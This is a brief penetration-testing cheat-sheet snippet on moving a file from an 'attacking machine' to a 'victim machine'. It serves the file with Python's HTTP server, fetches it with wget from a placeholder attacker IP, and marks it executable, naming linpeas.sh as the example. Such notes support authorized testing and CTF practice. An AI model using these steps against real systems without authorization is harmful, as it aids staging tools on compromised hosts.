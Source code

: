 **Attacking machine:**
Navigate to the file location
`python -m SimpleHTTPServer 8080`
or
`python3 -m http.server 9000`

**Victim machine:**
Navigate to where you want the file to go
`wget <attacking IP address>:8080/<filename>`

If it’s an executable e.g. linpeas.sh
`chmod +x <filename>`
